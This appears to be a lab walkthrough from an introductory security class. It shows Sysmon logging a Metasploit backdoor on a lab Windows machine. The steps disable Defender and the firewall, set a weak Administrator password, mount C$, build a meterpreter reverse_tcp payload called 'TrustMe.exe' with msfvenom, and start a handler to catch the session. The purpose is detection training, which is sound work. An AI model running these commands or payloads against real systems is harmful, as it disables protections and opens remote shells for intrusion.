 # Sysmon

Let’s disable **Defender**. Simply run the following from an **Administrator PowerShell** prompt:

![](attachments/OpeningPowershell.png)

Next, run the following command in the **Powershell** terminal:

<pre>Set-MpPreference -DisableRealtimeMonitoring $true</pre>

![](attachments/applocker_disabledefender.png)
This will disable **Defender** for this session.

If you get angry red errors, that is **Ok**, it means **Defender** is not running.

Next, lets ensure the firewall is disabled. In a Windows Command Prompt.

<pre> netsh advfirewall set allprofiles state off</pre>


Next, set a password for the Administrator account that you can remember

<pre>net user Administrator password1234</pre>

Please note, that is a very bad password.  Come up with something better. But, please remember it.

Before we move on from our Powershell window, lets get our IP by running the following command:

<pre>ipconfig</pre>

![](attachments/powershellipconfig.png)

**REMEMBER - YOUR IP WILL BE DIFFERENT**

Write this IP down so we can use it again later.

Let's continue by opening a **Kali** terminal

![](attachments/OpeningKaliInstance.png)

Alternatively, you can click on the **Kali** icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)


We need to run the following commands in order to mount our remote system to the correct directory:

<pre>sudo su -</pre>

<pre>mount -t cifs //[Your IP Address]/c$ /mnt/windows-share -o username=Administrator,password=password1234</pre>

**REMEMBER - YOUR IP ADDRESS AND PASSWORD WILL BE DIFFERENT.**

If you see the following error, it means that the device is already mounted.

![](attachments/mounterror.png)

If this is the case, ignore it.

Run the following command to navigate into the mounted directory:

<pre>cd /mnt/windows-share</pre>

Before we run the next commands, we need to get the IP of our Kali System (AKA our Linux IP Adress). Lets do so by running the following:

<pre>ifconfig</pre>


**REMEMBER: YOUR IP WILL BE DIFFERENT**

Run the following commands to start a simple backdoor and backdoor listener: 

<pre>msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=[Your Linux IP Address] lport=4444 -f exe -o /mnt/windows-share/TrustMe.exe</pre>

Let's start the **Metasploit** Handler.  Open a new **Kali** terminal by clicking the **Kali** icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Let's become root.

<pre>sudo su -</pre>

Now let's start the **Metasploit** Handler

<pre>msfconsole -q</pre>

We are going to run the following commands to correctly set the parameters:

<pre>use exploit/multi/handler</pre>

<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

<pre>set LHOST [Your Linux IP Address]</pre>

Remember, **Your IP will be different!**

<pre>exploit</pre>

It should look like this:

![](attachments/msfconsole.png)

We will need to open a **"cmd.exe"** terminal as **Administrator**.

![](attachments/OpeningWindowsCommandPrompt.png)

<pre>cd \IntroLabs</pre>

<pre>Sysmon64.exe -accepteula -i sysmonconfig-export.xml</pre>

It should look like this:

![](attachments/sysmonexe.png)

let's run the following commands to run the **"TrustMe.exe"** file.

<pre>cd \</pre>
 
Then run it with the following:

 <pre>TrustMe.exe</pre>

Back at your Kali terminal, you should have a metasploit session!

![](attachments/meterpretersession.png)

Now, we need to view the Sysmon events for this malware:

Open **"Event Viewer"** by pressing the Windows key and searching for it.

![](attachments/eventviewer.png)

You will select Event Viewer > Applications and Services Logs > Microsoft > Windows > Sysmon > Operational

![](attachments/eventviewernav1.png)

You'll have to scroll down a bit until you find the **Sysmon** folder.  

![](attachments/eventviwernav2.png)

Start at the top and work down through the logs, you should see your **malware** executing.  Please note your paths may be different.

![](attachments/logs.png)

![](attachments/processcreateview.png)

***

[Back to Navigation Menu](/IntroClassFiles/navigation.md)
